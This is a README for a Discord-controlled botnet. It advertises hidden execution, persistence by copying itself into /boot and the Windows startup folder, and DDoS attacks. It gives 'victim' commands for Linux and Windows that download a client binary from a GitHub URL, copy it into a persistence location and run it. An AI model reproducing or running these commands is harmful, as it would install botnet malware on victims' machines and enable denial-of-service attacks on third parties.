# Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/202854669-6d08daef-eae2-438b-a354-78b8accb7cb5.png)
- https://discord.gg/vCdPTjD6rZ

# Credits:
Orig - batu.sh#9675

TG @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/202915584-8783ef8b-edaa-47ea-9034-83ff74c26af9.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; apt-get install python3 -y; curl -O "https://raw.githubusercontent.com/rxu7s/Public/main/LClient"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% & powershell -command Invoke-WebRequest https://github.com/rxu7s/Public/raw/main/WClient.exe -OutFile WClient.exe & copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & WClient.exe
